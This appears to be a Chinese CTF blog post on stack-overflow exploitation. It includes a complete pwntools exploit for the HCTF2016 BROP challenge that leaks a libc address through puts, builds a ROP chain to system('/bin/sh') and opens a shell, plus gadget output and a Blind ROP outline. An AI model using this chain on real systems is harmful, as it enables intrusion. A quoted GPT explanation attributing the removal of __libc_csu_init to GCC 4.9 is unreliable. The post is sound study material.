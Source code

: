 ﻿---
layout:     post
title:      栈溢出基础浅记（3）
subtitle:   
date:       2023-10-07
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

### 控制rdx的方法

从上一篇文章可以发现，鲜有类似`pop rdx;ret`这样的指令。

wiki中介绍了一个方法，就是会找到strcmp函数，在执行该函数时，rdx会被设置为要被比较的字符串的长度，所以可以通过找到strcmp函数，从而控制rdx。

### 关于[HCTF2016 的出题人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop)的发现

本来想着先用常规的方法做这道题，看看会不会出问题结果发现最后在执行`payload = b'a' * 64 + b'deadbeef' + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)`时总是失败，总结原因应该时libc版本的问题。同时试了下wiki给出的rop，也不能成功运行。

~~通过泄露got地址，发现puts地址为0x570a7ff04a680e50，__libc_start_main地址为0x570a7ffa31a29dc0，两个综合发现结果只有`libc6_2.35-0ubuntu3.4_amd64`，但是使用该libc的地址，得到的system函数的位置也并不正确。证明确实是libc版本有问题。~~

！！！！其实上面的说法不正确！！！并不是libc版本的问题！

可以用的exp如下：

```
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher
# 0x00000000004007c3 : pop rdi ; ret
# 0x00000000004007c1 : pop rsi ; pop r15 ; ret
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
pop_rdi = brop_gadget + 9
pop_rsi_pop_r15 = brop_gadget + 7
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

# sh = remote("127.0.0.1", 9999)
sh = process('./brop')

payload = b'a' * length + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(stop_gadget)

sh.recv()
sh.sendline(payload)

# 搞不懂为啥接受8个字节的话，最后两个字节不是0，也就是说貌似got表中的__libc_start_main的地址只有6个字节
# 现在这样接受6个字节是对的
libc_puts_addr = u64(sh.recv(6).ljust(8, b'\x00'))
log.success('puts ' + hex(libc_puts_addr))

libc = LibcSearcher('puts', libc_puts_addr)
libc_base = libc_puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

# libc = ELF('./libc.so.6')
# libc_base = libc_puts_addr - libc.symbols['puts']
# system_addr = libc_base + libc.symbols['system']
# binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success('libc_base ' + hex(libc_base))
log.success('system_addr ' + hex(system_addr))
log.success('binsh_addr ' + hex(binsh_addr))

# 我如果没修改rsi，同样也不能得到shell 估计是因为原来rsi里面的值是那个特别长的字符串
payload = b'a' * length + p64(pop_rdi) + p64(binsh_addr) + p64(pop_rsi_pop_r15)+ p64(0) +p64(0) + p64(system_addr) + p64(stop_gadget)

sh.sendline(payload)
sh.interactive()

```

之后，我想着直接编重新用我的gcc编译一下（gcc version 11.4.0），使用命令为`gcc -fno-stack-protector -no-pie main.c -o brop`，这时使用ROPgadget查看，结果如下：

```
❯ ROPgadget --binary brop --only 'pop|ret'
Gadgets information
============================================================
0x000000000040117d : pop rbp ; ret
0x000000000040101a : ret

Unique gadgets found: 2
```

基本上没有pop，ret了，然后使用ida pro逆向，发现确实已经没有了`__libc_csu_init`函数，询问GPT的结果如下：

> 根据GCC的更新历史，自GCC版本4.9以后，新版本的GCC已经引入了新的启动过程（startup process）和初始化过程（initialization process）。在新的初始化过程中，不再使用libc_csu_fini和libc_csu_init函数。
>
> 在旧版本的GCC中，libc_csu_fini和libc_csu_init函数是用于在程序启动和结束时执行一些初始化和清理工作的。libc_csu_fini用于清理由libc_csu_init函数初始化的全局变量和静态变量，而libc_csu_init函数则负责初始化这些变量。
>
> 然而，由于新版本的GCC引入了更高级的启动和初始化过程，这些过程已经被重新设计和重构。因此，不再需要使用libc_csu_fini和libc_csu_init函数来进行初始化和清理工作。
>
> 总结起来，最新版的GCC编译的文件不再包含libc_csu_fini和libc_csu_init函数。

### 关于Blind ROP

这里写一下思路

- 找到栈溢出长度（暴力枚举）
- 泄露canaries 参考[canary的各种姿势----pwn题解版 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4657)
- 找到stop_gadget(即可以使程序继续成功运行的gadget)
- 找到brop_gadget
- 找到puts地址
- 泄露libc地址
- pwn

整个过程挺繁琐的，感觉先可以做做别的，有时间再做这种题目
